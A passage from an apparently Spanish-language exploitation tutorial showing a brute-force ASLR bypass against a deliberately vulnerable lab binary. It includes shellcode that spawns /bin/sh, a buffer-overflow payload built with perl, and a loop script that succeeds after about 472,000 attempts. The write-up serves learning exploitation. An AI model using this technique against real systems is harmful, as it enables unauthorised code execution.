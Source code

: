 $ ltrace ./vuln \`cat sc.o«perl -e ‘print «A»x(140-31) . «xaaxaaxaaxff»‘\`  
\_\_libc\_start\_main(0x56601602, 2, 0xffa4cb84, 0x56601650 <unfinished …>  
strcpy(0xffa4ca30, «130013333152001300Ph//shh/bin211343PS2113411322260v315200A»…) = 0xffa4ca30  
puts(\[…\]) = 145  
— SIGSEGV (Segmentation fault) —  
+++ killed by SIGSEGV +++  
Luego una dirección válida para nuestro `buf` es `0xffa4ca30`. Un nopsled podría facilitar las cosas bastante, y todavía más si se encontrara en una variable de entorno, donde puede ocupar un tamaño bastante grande. Pero vamos a intentarlo primero empleando solo nuestro pequeño buffer.  

    #!/bin/sh
    i=0
    while :
    do
        echo "Intento: $i"
        ./vuln `cat sc.o``perl -e 'print "A"x(140-31) . "x30xcaxa4xff"'`
        i=$((i+1))
    done

Lo ejecutamos, y a esperar

Acabo de volver  (ya que estaba tardando), y ya ha acabado la fuerza bruta, en el intento 472449 (más anteriores ejecuciones, pues he probado varios scripts, para ver cuál era el más rápido y práctico, así que habría que sumar unos cuantos intentos más).  

    $ ./aslr.sh
    Intento: 0
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
    Intento: 1
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
       .
       .
       .
    Intento: 472446
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
    Intento: 472447
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
    Intento: 472448
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    $ 
